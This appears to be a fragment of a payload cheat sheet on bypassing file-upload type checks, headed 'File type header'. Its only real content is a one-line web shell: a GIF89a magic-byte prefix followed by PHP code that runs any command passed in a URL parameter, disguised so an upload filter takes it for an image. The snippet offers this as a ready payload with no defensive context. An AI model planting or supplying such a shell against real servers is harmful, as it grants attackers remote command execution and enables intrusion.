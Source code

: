 # File type header

Specify the file type header:

```bash
# For GIF files:
GIF89a; <?php system($_GET['cmd']); ?>
```
